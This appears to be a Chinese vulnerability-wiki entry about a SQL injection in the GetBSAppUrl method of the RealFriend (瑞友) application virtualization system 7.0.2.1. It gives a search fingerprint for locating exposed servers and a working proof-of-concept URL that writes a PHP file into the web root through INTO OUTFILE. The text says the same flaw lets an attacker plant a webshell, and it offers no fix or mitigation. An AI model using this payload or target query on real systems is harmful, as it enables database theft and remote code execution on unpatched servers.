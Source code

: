 # 瑞友 应用虚拟化系统 GetBSAppUrl SQL注入漏洞

## 漏洞描述

瑞友 应用虚拟化系统 GetBSAppUrl方法存在SQL注入漏洞，由于参数传入没有进行过滤导致存在SQL注入，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>瑞友应用虚拟化系统 7.0.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"CASMain.XGI?cmd=GetDirApp" && title=="瑞友应用虚拟化系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1681181309572-a70542e4-5ec8-4441-bf73-d097a59be7d5.png)



在 GetBSAppUrl 方法中存在SQL注入漏洞，通过漏洞可以写入Webshell文件

![img](/assets/PeiQi-Wiki/img/1681187680384-430aaff0-d568-4144-ac8b-bd2ff471e2b3.png)

验证POC

```plain
/index.php?s=/Agent/GetBSAppUrl/AppID/')%3bselect+0x3c3f70687020706870696e666f28293b3f3e+into+outfile+%27C%3a\\Program+Files+(x86)\\RealFriend\\Rap+Server\\WebRoot\\test7.php%27%23/123
```

![img](/assets/PeiQi-Wiki/img/1681188074734-58253667-cdba-4a7e-88ad-87e0d63658cb.png)

```plain
/test7.php
```

![img](/assets/PeiQi-Wiki/img/1681181764154-3a7a73d8-20a2-4a11-b837-ac9d0363955b.png)